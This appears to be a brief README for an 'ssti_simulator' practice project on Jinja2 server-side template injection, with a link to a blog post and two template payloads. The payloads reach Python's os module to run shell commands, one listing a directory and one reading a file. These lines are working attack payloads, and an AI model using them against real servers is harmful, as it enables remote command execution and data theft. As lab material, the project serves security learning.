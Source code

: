 # ssti_simulator
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}

{{ request.application.__globals__.__builtins__.__import__('os').popen('cat secrete.txt').read() }}